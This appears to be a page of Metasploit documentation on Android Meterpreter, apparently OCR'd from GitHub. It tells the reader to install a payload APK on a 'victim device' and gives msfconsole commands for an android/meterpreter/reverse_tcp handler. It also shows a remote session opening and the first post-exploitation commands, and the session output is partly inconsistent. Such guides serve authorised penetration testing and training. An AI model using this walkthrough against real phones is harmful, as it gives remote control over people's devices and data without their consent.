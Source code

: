 
## Verification Steps

Currently, the most common way to use Android Meterpreter is to create it as an APK, and then
execute it on a victim device.

To start listner run msfconsole in terminal and then set listner settings:

```
msf > use exploit/multi/handler
msf > set payload/android/meterpreter/reverse_tcp 
msf payload(reverse_tcp) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf payload(reverse_tcp) > run -j
[*] Writing 8992 bytes to /tmp/android.apk...
msf payload(reverse_tcp) > sessions    (To check which session is running type: 'sessions', in my case it is 1)
  ID  Name  Type                           Information   Connection
  __  ____  ___                            ___________   __________
  1       android/meterpreter/reverse_tcp  u0_localhost  192.168.1.199:4444=> 192.168.0.110:35713
  
  
msf payload(reverse_tcp) > sessions -i 1   (To set the session to proceed the attack)
[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] Starting the payload handler...
[*] Sending stage (62432 bytes) to 192.168.1.199
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.199:49178) at 2016-03-08 13:00:10 -0600

meterpreter > 
```

## Important Basic Commands

**pwd**

The ```pwd``` command allows you to see the current directory you're in.

```
meterpreter > pwd
/data/data/com.metasploit.stage
```

**cd**

The ```cd``` command allows you to change directory. For example:

```
meterpreter > cd cache
meterpreter > ls
```

**cat**

The ```cat``` command allows you to see the contents of a file.
